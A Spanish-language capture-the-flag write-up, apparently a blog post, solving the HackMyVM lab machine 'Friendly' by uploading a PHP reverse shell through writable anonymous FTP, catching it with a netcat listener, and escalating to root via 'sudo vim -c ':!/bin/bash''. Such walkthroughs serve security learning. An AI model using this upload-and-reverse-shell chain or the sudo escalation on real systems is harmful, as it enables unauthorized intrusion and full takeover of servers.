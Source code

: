 ```yaml
---
layout: post
title:  "Friendly"
date:   2023-04-15 18:20:52 +0200
categories: hackmyvm
---
```

**Autor**: Rijaba \\
**Dificultad**: Fácil
![img](/assets/hmv/hmv_friendly/friendly_logo.png)

### Escaneo de puertos
```js
❯ nmap -p- -T5 -n -v 192.168.1.12

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

### Escaneo de servicios
```txt
❯ nmap -sVC -v -p 21,80 192.168.1.12

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
```

### HTTP
Tenemos la página por defecto de apache.
```txt
❯ curl -s http://192.168.1.12 | html2text

[Debian Logo]  Apache2 Debian Default Page
It works!
This is the default welcome page used to test the correct operation of the
Apache2 server after installation on Debian systems. If you can read this page,
it means that the Apache HTTP server installed at this site is working
properly. You should replace this file (located at /var/www/html/index.html)
before continuing to operate your HTTP server.
If you are a normal user of this web site and don't know what this page is
about, this probably means that the site is currently unavailable due to
maintenance. If the problem persists, please contact the site's administrator.
Configuration Overview
```
### FTP
Me conecto al servidor FTP con el usuario anonymous y veo un archivo index.html se trata del archivo por defecto del servidor apache.
```txt
❯ ftp 192.168.1.12

Name (192.168.1.12:noname): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||31488|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
```
Creo un archivo **``phpinfo.php``** y lo subo al servidor FTP porque que tengo permisos de lectura, escritura y ejecución.
```php
<?php
    phpinfo();
?>
```

Con Firefox abro el archivo **``phpinfo.php``** y veo que interpreta código php.

![img](/assets/hmv/hmv_friendly/phpinfo.png)

Me he descargado esta **[ shell]**(http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) y la he configurado apuntando a mi dirección ip.


La subo al servidor FTP con el comando **``put``**.
```txt
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||47066|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |****************************************|  3463       66.05 MiB/s    00:00 ETA
226 Transfer complete
3463 bytes sent in 00:00 (2.60 MiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||58099|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 .
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:18 phpinfo.php
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:21 php-reverse-shell.php
226 Transfer complete
```

Uso curl para entablarme la reverse-shell.
```txt
❯ curl -s http://192.168.1.12/php-reverse-shell.php
```
Obtengo la shell.

```txt
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.12: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 47948
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 08:25:02 up 11 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Realizo el tratamiento de la tty.
```txt
script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
xterm
export TERM=xterm SHELL=bash
stty -row 46 columns 188
```
### Privesc
Lanzo **``sudo -l``** para ver que permisos tengo con sudo.

```txt
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Me voy a gtfobins y busco vim.

![img](/assets/hmv/hmv_friendly/vim_gtfobins.png)

Uso el comando de gtfobins para obtener el root solo que la parte del comando donde pone ``/bin/sh`` lo he cambiado por ``/bin/bash``.
```txt
www-data@friendly:/home/RiJaba1$ sudo /usr/bin/vim -c ':!/bin/bash'
root@friendly:~# whoami
root
```

Al intentar leer la flag de root me encuentro con el siguiente mensaje.

```txt
root@friendly:~# cat root.txt 
Not yet! Find root.txt.
```
Uso ``find`` para encontrar el archivo root.txt.

```txt
root@friendly:~# find / -name root.txt 2>/dev/null
```

Y con esto ya tenémos resuelta la máquina friendly! Happy Hacking! :)



